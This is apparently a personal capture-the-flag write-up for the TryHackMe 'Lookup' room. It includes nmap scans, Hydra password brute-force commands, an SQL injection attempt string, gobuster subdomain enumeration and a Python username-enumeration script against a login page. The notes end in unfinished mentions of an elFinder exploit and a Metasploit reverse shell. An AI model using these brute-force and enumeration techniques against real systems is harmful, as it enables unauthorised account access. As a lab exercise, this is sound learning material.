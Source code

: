 ![image](https://github.com/user-attachments/assets/07dde77b-d273-45ce-92c4-bb0d3f696c90)

# Lookup
- Easy room
- Lookup offers a treasure trove of learning opportunities for aspiring hackers. This intriguing machine showcases various real-world vulnerabilities, ranging from web application weaknesses to privilege escalation techniques. By exploring and exploiting these vulnerabilities, hackers can sharpen their skills and gain invaluable experience in ethical hacking. Through "Lookup," hackers can master the art of reconnaissance, scanning, and enumeration to uncover hidden services and subdomains. They will learn how to exploit web application vulnerabilities, such as command injection, and understand the significance of secure coding practices. The machine also challenges hackers to automate tasks, demonstrating the power of scripting in penetration testing.﻿ Note: For free users, it is recommended to use your own VM if you'll ever experience problems visualizing the site. Please allow 3-5 minutes for the VM to fully boot up.

```nmap -v 10.10.4.98
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-18 14:20 GMT
Initiating ARP Ping Scan at 14:20
Scanning 10.10.4.98 [1 port]
Completed ARP Ping Scan at 14:20, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:20
Completed Parallel DNS resolution of 1 host. at 14:20, 0.00s elapsed
Initiating SYN Stealth Scan at 14:20
Scanning 10.10.4.98 [1000 ports]
Discovered open port 80/tcp on 10.10.4.98
Discovered open port 22/tcp on 10.10.4.98
Completed SYN Stealth Scan at 14:20, 0.08s elapsed (1000 total ports)
Nmap scan report for 10.10.4.98
Host is up (0.00015s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:2E:BC:85:FC:E9 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.40 seconds
           Raw packets sent: 1001 (44.028KB) | Rcvd: 1001 (40.036KB)
```
## I'll look more into port 22(ssh) and 80(http)
```nmap -sS -p- -T4 -sC -sV -oA scan 10.10.4.98
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-18 14:32 GMT
Nmap scan report for 10.10.4.98
Host is up (0.00017s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://lookup.thm
MAC Address: 02:2E:BC:85:FC:E9 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.78 seconds
```
We have a website redirect at http://lookup.thm. Let's look at that. 
- typing http://lookup.thm fails
- typing 10.10.4.98 fails
- We have to add it to our hosts file
- ```sudo nano /etc/hosts```
- Added line
- 10.10.4.98      lookup.thm
- Browsed to URL lookup.thm
![image](https://github.com/user-attachments/assets/d2fd5eb6-75bc-42f9-89ac-192bc666913e)

### Brute force attack with Burp Suite
- Tried admin:admin for user and password. Says password is incorrect(but not username, so username must be correct)
- Can send captured login attempt to repeater, then intruder and brute force
### Hydra brute force
- ```hydra -l admin -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password. Please try again." -IV -t 64```
- [80][http-post-form] host: lookup.thm   login: admin   password: password123
- 1 of 1 target successfully completed, 1 valid password found
   ```

### SQL injection (No luck)
- Username: admin Password: " or ""="

### Directory Traversal(No luck)
- lookup.thm/admin
- lookup.thm/login
### Gobuster is a tool used to brute-force:
- URIs (directories and files) in web sites. DNS subdomains (with wildcard support). Virtual Host names on target web servers. Open Amazon S3 buckets Open Google Cloud buckets TFTP servers
- gobuster dns -d lookup.thm -w wordlist.txt
- Found files.lookup.thm
- the version of elfinder is vulnerable to an exploit


## python script to enumerate valid usernames
```
import requests

# Define the target URL
url = "http://lookup.thm/login.php"

# Define the file path containing usernames
file_path = "/usr/share/seclists/Usernames/Names/names.txt"

# Read the file and process each line
try:
    with open(file_path, "r") as file:
        for line in file:
            username = line.strip()
            if not username:
                continue  # Skip empty lines
            
            # Prepare the POST data
            data = {
                "username": username,
                "password": "password"  # Fixed password for testing
            }

            # Send the POST request
            response = requests.post(url, data=data)
            
            # Check the response content
            if "Wrong password" in response.text:
                print(f"Username found: {username}")
            elif "wrong username" in response.text:
                continue  # Silent continuation for wrong usernames
except FileNotFoundError:
    print(f"Error: The file {file_path} does not exist.")
except requests.RequestException as e:
    print(f"Error: An HTTP request error occurred: {e}")
```
- usernames admin and jose
- back to hydra ```hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -V```
- add files.lookup.thm to hosts file

### el finder
-check version and find CVE exploit
### Metasploit and MSFconsole
- get reverse shell using exploit
- 




